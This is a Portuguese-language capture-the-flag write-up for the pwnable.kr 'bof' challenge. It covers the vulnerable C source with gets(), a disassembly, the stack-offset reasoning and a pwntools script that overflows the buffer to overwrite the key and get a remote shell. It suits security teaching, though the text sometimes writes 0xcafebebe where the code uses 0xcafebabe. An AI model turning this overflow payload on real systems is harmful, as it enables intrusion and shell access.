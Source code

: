 # Challenge 2: Buffer Overflow

## Autores
- [Guilherme Locca Salomão](https://github.com/Caotichazard), 758569
- [João Victor Mendes Freire](https://github.com/joaovicmendes), 758943
- [Martin Heckmann](https://github.com/heckmartin), 758986

## Descrição
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

<img src="screencaps/nc.png"/>

## Solução
Inicialmente, o problema nos mostra o seguinte código fonte:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
O objetivo do código é fazer com que `key` seja igual a `0xcafebebe`, mas o programa foi compilado passando a chave `0xdeadbeef`.
O próprio código já nos aponta pro lugar onde uma vulnerabilidade pode ser encontrada, na função `gets()`. A função, pertencente à `libc`, tem a seguinte descrição no `man`.

```
The gets() function is equivalent to fgets() with an infinite size and a stream of stdin, except that the newline character (if any) is not stored in the string. It is the caller's responsibility to ensure that the input line, if any, is sufficiently short to fit in the string.
```

Essa descrição já deixa claro o que deve ser feito: a função não verifica se o buffer alocado tem espaço suficiente para armazenar o conteúdo que será lido da entrada padrão. Assim, é possível fazermos um buffer overflow para alterar os conteúdos da pilha do programa.

Ao utilizarmos o programa `objdump` pra descompilar o código, obtemos o seguinte código assembly para a função `main` e `func`:

<img src="screencaps/objdump.png"/>

```
0000068a <main>:
     68a: 55                           	pushl	%ebp
     68b: 89 e5                        	movl	%esp, %ebp
     68d: 83 e4 f0                     	andl	$-16, %esp
     690: 83 ec 10                     	subl	$16, %esp
     693: c7 04 24 ef be ad de         	movl	$3735928559, (%esp)
     69a: e8 8d ff ff ff               	calll	0x62c <func>
     69f: b8 00 00 00 00               	movl	$0, %eax
     6a4: c9                           	leave
     6a5: c3                           	retl
```

```
0000062c <func>:
     62c: 55                           	pushl	%ebp
     62d: 89 e5                        	movl	%esp, %ebp
     62f: 83 ec 48                     	subl	$72, %esp
     632: 65 a1 14 00 00 00            	movl	%gs:20, %eax
     638: 89 45 f4                     	movl	%eax, -12(%ebp)
     63b: 31 c0                        	xorl	%eax, %eax
     63d: c7 04 24 8c 07 00 00         	movl	$1932, (%esp)
     644: e8 fc ff ff ff               	calll	0x645 <func+0x19>
     649: 8d 45 d4                     	leal	-44(%ebp), %eax
     64c: 89 04 24                     	movl	%eax, (%esp)
     64f: e8 fc ff ff ff               	calll	0x650 <func+0x24>
     654: 81 7d 08 be ba fe ca         	cmpl	$3405691582, 8(%ebp)
     65b: 75 0e                        	jne	0x66b <func+0x3f>
     65d: c7 04 24 9b 07 00 00         	movl	$1947, (%esp)
     664: e8 fc ff ff ff               	calll	0x665 <func+0x39>
     669: eb 0c                        	jmp	0x677 <func+0x4b>
     66b: c7 04 24 a3 07 00 00         	movl	$1955, (%esp)
     672: e8 fc ff ff ff               	calll	0x673 <func+0x47>
     677: 8b 45 f4                     	movl	-12(%ebp), %eax
     67a: 65 33 05 14 00 00 00         	xorl	%gs:20, %eax
     681: 74 05                        	je	0x688 <func+0x5c>
     683: e8 fc ff ff ff               	calll	0x684 <func+0x58>
     688: c9                           	leave
     689: c3                           	retl
```

Em `func`, podemos observar que o programa compara `3405691582` (a versão decimal de `0xcafebebe`) com o registrador `ebp`. Essa é a comparação que desejamos explorar, para fazer com que, após executar o `gets`, `ebp` tenha o valor `0xcafebebe`. Um pouco antes, no `call` que faz a chamada para `gets`, é possível ver que ele copia o conteúdo que retorna (`eax`) para `-44(%ebp)` (ou seja, esta 44 bytes abaixo do ponteiro base). Isso indica que é nessa posição que o buffer está alocado. Logo, devemos começar a preencher a partir dessa região com dados aleatórios, e depois colocarmos `0xcafebebe` logo após `ebp` para que a comparação seja verdadeira.

O seguinte script Python usa a biblioteca pwn para abrir uma conexão com o servidor e enviar a linha que executa o exploit.

```python
import pwn

input_text = 'A'*52 # para preenchermos o espaço do buffer até chegar em ebp
input_text += '\xbe\xba\xfe\xca' # o valor que será armazenado em key

conn = pwn.remote('pwnable.kr', 9000) # conexão com o servidor que está executando o programa

conn.sendline(input_text)
conn.interactive()
````

Com esse código, conseguimos um shell interativo, e basta realizarmos um `cat flag` que obtemos `daddy, I just pwned a buFFer :)`.

<img src="screencaps/overflow.png"/>
